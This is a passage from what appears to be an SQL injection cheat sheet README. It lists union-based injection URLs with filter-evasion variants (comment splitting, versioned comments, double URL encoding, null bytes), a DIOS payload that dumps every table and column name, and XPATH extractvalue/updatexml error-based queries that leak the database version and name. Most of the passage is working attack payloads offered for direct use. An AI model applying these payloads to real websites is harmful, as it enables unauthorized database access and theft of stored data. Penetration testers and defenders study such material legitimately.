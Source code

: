     http://domain.com/index.php?id=1& n=19901' /^****union.*$/ /^****select.*$/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*union*/union/*select*/select+ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' /*!50000UnION*//*!50000SeLeCt*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' %252f%252a*/union%252f%252a /select%252f%252a*/ 1,2,3,4,5,6,7,8,9,10,12,13,14-- -  
    http://domain.com/index.php?id=1& n=19901' AnD null UNiON SeLeCt 1,2,3,4,5,6,7,8,9,10,12,13,14;%00-- -  
    http://domain.com/index.php?id=1& n=19901' AnD null UNiON SeLeCt 1,2,3,4,5,6,7,8,9,10,12,13,14+--+-  
    http://domain.com/index.php?id=1& n=19901' And False Union Select 1,2,3,4,5,6,7,8,9,10,12,13,14+--+-  
```

The website should loads normally, showing us the number of the vulnerable column. In this case: **6**.  

**Retrieving the version of database:**  
```https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,version(),7,8,9,10,11,12,13,14-- -```  

**Retrieving the database name:**  
```https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,database(),7,8,9,10,11,12,13,14-- -```  

**Using DIOS payload to dump tables & columns automatically**

Click [here](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/blob/main/Error%20Based%20SQLi/README.md#dumping-with-dios) to get DIOS Payloads, which we will use in the following payload. Simply copy DIOS and replace it with **paste_DIOS_here 

```https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,paste_DIOS_here,7,8,9,10,11,12,13,14-- -```  

Example:
```https://domain.com.br/index.php?id=1& n=19901' Union Select 1,2,3,4,5,concat/*!(0x3c68323e20496e6a656374657220414c49454e205348414e553c2f68323e,0x3c62723e,version(),(Select(@)+from+(selecT(@:=0x00),(select(0)+from+(/*!information_Schema*/.columns)+where+(table_Schema=database())and(0x00)in(@:=concat/*!(@,0x3c62723e,table_name,0x3a3a,column_name))))x))*/,7,8,9,10,11,12,13,14-- -```  

**Retrieving tables & columns manually**  

The process and the payloads for manual injecting is exactly the same. Please [click here](https://github.com/kleiton0x00/Advanced-SQL-Injection-Cheatsheet/tree/main/Error%20Based%20SQLi#dumping-with-the-traditional-method) to get more details.

## Bypassing Error message: The used SELECT statements have a different number of columns (Third method)

The third method consists on XPATH queries.

**Retrieving the database version:**

-Using XPATH extractvalue:  
```and extractvalue(0x0a,concat(0x0a,(select version())))-- -```  

-Using XPATH updatexml:  
```and updatexml(null,concat(0x0a,(select version())),null)-- -```  

Output error:  
>XPATH SYNTAX ERROR: '**5.0.35**'35  

**Retrieving the database name:**

-Using XPATH extractvalue:  
```and extractvalue(0x0a,concat(0x0a,(select database())))-- -```  

-Using XPATH updatexml:  
```and updatexml(null,concat(0x0a,(select database())),null)-- -```  

```